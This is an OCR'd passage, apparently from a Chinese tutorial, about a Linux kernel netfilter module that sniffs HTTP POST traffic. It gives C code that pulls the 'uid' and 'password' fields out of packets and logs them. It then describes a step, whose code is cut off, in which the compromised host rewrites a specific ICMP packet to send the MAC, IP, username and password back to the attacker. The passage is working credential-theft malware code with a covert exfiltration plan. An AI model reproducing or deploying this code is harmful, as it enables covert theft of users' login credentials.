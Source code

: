 使用字符串匹配，找到代表username、password的字段，通过网页源码或抓包确定变量名，cookie字段中也有uid和password，但没有&   
```c
    static void check_http(struct sk_buff *skb)
    {
    struct tcphdr *tcp;
    char *data;
    char *name;
    char *passwd;
    char *_and;
    char *check_connection;
    int len,i;
    tcp = tcp_hdr(skb);
    data = (char *)((unsigned long)tcp + (unsigned long)(tcp->doff * 4));
 
    if (strstr(data,"Connection") != NULL && strstr(data, "&uid") != NULL && strstr(data, "&password") != NULL) {
    check_connection = strstr(data,"Connection");
    printk("find connection uid password");
    
    name = strstr(check_connection,"&uid=");
    name += 5;
    _and = strstr(name,"&");
    len = _and - name;
    if ((username = kmalloc(len + 2, GFP_KERNEL)) == NULL)
    return;
    memset(username, 0x00, len + 2);
    for (i = 0; i < len; ++i)
    {
    *(username + i) = name[i];
    }
    *(username + len) = '\0';
    
    passwd = strstr(name,"&password=");
    passwd += 10;
    _and = strstr(passwd,"&");
    len = _and - passwd;
    if ((password = kmalloc(len + 2, GFP_KERNEL)) == NULL)
    return;
    memset(password, 0x00, len + 2);
    for (i = 0; i < len; ++i)
    {
    *(password + i) = passwd[i];
    }
    *(password + len) = '\0';
    } else {
    printk("it`s not a http post");
    return;
    }
    
    if (!target_ip)
    target_ip = ip_hdr(skb)->daddr;
    if (!target_port)
    target_port = tcp->source;
    if (username && password)
    have_pair++; 
    if (have_pair)
    printk("Have a uid&pwd pair! U: %s P: %s\n", username, password);
    }

    ```
 
 #### 4. target中使用netfilter过滤收到的包，当发现特定的icmp包后，直接修改此数据报，mac、ip、username、pwd，并发送回hack。  
 
  ```c
```